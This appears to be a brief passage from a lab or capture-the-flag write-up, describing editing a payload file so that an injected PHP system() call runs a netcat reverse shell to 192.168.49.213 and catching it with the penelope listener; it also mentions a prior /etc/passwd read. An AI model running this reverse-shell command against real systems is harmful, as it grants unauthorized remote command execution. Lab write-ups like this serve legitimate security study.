 #### -Typed vim payload.txt and changed the cat etc/passwd script with "<pre>system('nc -e /bin/bash 192.168.49.213 5002')</pre>" and ran penelope program (which is better than netcat listener) which automatically upgrades the TTY terminal and received reverse shell: 

![](../Pasted%20Images/Pasted%20image%2020220505205325.png)

![](../Pasted%20Images/Pasted%20image%2020220505205352.png)

